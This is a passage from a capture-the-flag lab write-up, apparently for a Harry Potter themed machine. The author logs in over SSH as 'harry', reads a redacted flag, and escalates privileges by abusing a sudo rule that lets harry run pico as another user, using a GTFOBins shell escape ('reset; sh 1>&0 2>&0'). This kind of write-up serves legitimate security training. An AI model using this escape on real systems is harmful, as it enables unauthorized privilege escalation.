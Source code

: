 I used the found password to connect to the server ssh. I got in and found the first flag. 

```bash
$ ssh harry@target 
harry@target's password: 
 _      __    __                     __         __ __                          __
 | | /| / /__ / /______  __ _  ___   / /____    / // /__  ___ __    _____ _____/ /____
 | |/ |/ / -_) / __/ _ \/  ' \/ -_) / __/ _ \  / _  / _ \/ _ `/ |/|/ / _ `/ __/ __/_ /
 |__/|__/\__/_/\__/\___/_/_/_/\__/  \__/\___/ /_//_/\___/\_, /|__,__/\_,_/_/  \__//__/
                                                        /___/

Last login: Thu Nov 26 01:42:18 2020

harry@hogwartz-castle:~$ ls
user1.txt

harry@hogwartz-castle:~$ cat user1.txt 
REDACTED
```

## Lateral Escalation

I was in the server, now I needed to escalate my privileges. 

```bash
harry@hogwartz-castle:~$ sudo -l
[sudo] password for harry: 
Matching Defaults entries for harry on hogwartz-castle:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry may run the following commands on hogwartz-castle:
    (hermonine) /usr/bin/pico
    (hermonine) /usr/bin/pico
```

My user was allowed to run pico as hermonine. 

I looked at [GTFOBins](https://gtfobins.github.io/gtfobins/pico/#sudo) to find if I could use pico to launch a shell as the user. 

All I needed to do was launch pico, then use CTRL-r CTRL-x and launch sh. 

```
sudo pico
^R^X
reset; sh 1>&0 2>&0
```

I did it, using sudo to run it as hermonine. 

```bash
harry@hogwartz-castle:~$ sudo -u hermonine pico
Unable to create directory /home/harry/.local/share/nano/: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue


^R^X
reset; sh 1>&0 2>&0
```
